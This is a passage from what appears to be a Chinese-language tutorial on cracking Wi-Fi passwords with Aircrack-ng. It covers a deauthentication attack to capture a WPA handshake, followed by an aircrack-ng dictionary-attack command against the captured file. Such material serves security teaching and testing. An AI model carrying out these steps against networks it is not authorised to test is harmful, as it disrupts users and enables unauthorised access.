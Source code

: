 [Aircrack-ng之Aireplay-ng命令详解](https://blog.csdn.net/qq_28208251/article/details/48115815)

根据无线网络路由器的MAC地址和连接无线网络的设备的MAC地址对指定目标发起deauth反认证包攻击，让那个设备断开wifi，随后它自然会再次连接wifi，当它自动重新连接wifi的时候，我们的攻击终端便能抓到握手包

![](resources/2023-07-03-17-30-09.png)

第一个终端右上角提示拿到了握手包，握手包保存到了当前目录下的cap格式文件

![](resources/2023-07-03-17-30-57.png)

#### step4：破解密码

##### 使用aircrack-ng

现在需要字典

[利用kali生成字典的三种方式](https://blog.csdn.net/qq_44204058/article/details/115562895)

kali自带字典的目录为
```shell
/usr/share/wordlists/
```

对刚才抓取到的握手包进行密码破解
```shell
# 跑字典
# 参数：
# -w 指定字典
# 最后是指定保存了握手包的cap格式文件
aircrack-ng -w ./pass_test.txt ./-18.cap
```
